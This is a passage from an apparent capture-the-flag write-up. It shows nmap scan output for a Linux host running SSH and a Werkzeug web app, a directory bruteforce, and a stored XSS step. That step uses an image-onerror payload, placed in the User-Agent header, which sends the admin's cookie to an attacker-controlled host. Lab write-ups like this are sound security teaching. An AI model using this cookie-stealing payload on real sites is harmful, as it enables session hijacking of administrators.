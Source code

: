    SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
    SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
    SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
    SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
    SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
    SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
    SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
    SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
    SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
    SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
    SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
    SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 153.97 seconds

**Open Ports**:

-   Port 22: SSH (OpenSSH 9.2p1 Debian 2+deb12u2)
-   Port 5000: A web service running Werkzeug/2.2.2 Python/3.11.2.

### Directory Bruteforce

![dir](https://i.ibb.co/kcBXkrJ/dir.jpg)

**Directories**:
- /dashboard
- /support

### Site - 5000/TCP
![support](https://i.ibb.co/HGRNTyk/support.jpg)

![dashboard](https://i.ibb.co/J5XXHH7/dashboard.jpg%20https://i.ibb.co/HGRNTyk/support.jpg)

It seems we don't have permission to access this page yet.

## Shell as User

### XSS

After going through a bunch of payloads, I found the most suitable one for this.

```javascript
<img src=x onerror=fetch('http://ip:port/'+document.cookie);>
```

![xss](https://i.ibb.co/dtM3J5B/xss.jpg)

Inject the XSS payload into the user agent. Entering `<>` in the message field will result in a hacking attempt on the site. When the administrator reviews your hacking attempt, your malicious payload is executed and you receive the admin cookie on your local server.
